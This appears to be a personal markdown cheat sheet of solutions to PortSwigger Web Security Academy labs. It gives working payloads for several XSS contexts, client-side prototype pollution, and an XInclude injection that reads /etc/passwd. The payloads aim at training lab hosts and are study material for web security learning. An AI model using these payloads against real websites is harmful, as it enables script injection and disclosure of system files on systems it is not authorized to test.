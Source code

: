 ## XSS with Access key (Canonical Link tag)

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts

**Lab:** 

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

**Limitation:** Only on Chrome

**Solution:**

https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)

Press Alt+x on keyboard to get alert

## XSS within <script>

**Chapter:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts
**Lab:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped
**Limitations:** NA
**solution:** 
  
</script><script>alert(1)</script>


## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped
  
**Limitations:** NA

**Solution:** 

\'-alert(1)//


## Reflected XSS in a JavaScript URL with some characters blocked

**Chapter:** 

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
  
**Limitations:** NA

**Solution:** 

``` https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27 ```



## Client-side prototype pollution via browser APIs 

**Chapter:**
https://portswigger.net/web-security/prototype-pollution/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis
  
**Lab:**
https://portswigger.net/web-security/prototype-pollution/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis
  
**Limitations:** NA


**Solution:** 
/?__proto__[value]=data:,alert(1);

 Identify a gadget 
 Observe that the next line uses the Object.defineProperty() method to make the transport_url unwritable and unconfigurable. However, notice that it doesn't define a value property. 
 Craft an exploit
 /?__proto__[value]=foo
In the browser DevTools panel, go to the Elements tab and study the HTML content of the page. Observe that a <script> element has been rendered on the page, with the src attribute foo. 
  
 ### usign DOM invader
  
 Enable DOM Invader and enable the prototype pollution option. 
 Scan for gadgets
 Exploit

## Exploiting XInclude to retrieve files 

**Chapter:**
  https://portswigger.net/web-security/xxe
  
**Lab:**
  https://portswigger.net/web-security/xxe/lab-xinclude-attack
  


**Solution:** 
  Xinclude in productId
  <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

  
  



# Template:
## Topic Here 

**Chapter:**
  
**Lab:**

  
**Limitations:** NA

**Solution:** 

